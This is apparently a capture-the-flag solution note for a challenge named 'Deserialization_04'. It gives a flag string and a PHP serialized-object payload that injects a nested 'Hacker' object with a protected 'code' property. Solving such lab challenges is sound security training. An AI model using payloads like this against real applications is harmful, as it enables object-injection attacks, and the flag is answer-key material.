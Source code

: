# Deserialization_04
Flag: `NISRA{ZULjybdOJMvLDpq381q3}`

Payload:
```
O:5:"NISRA":1:{s:6:"target";O:6:"Hacker":1:{s:7:"%00*%00code";i:3735928559;}}
```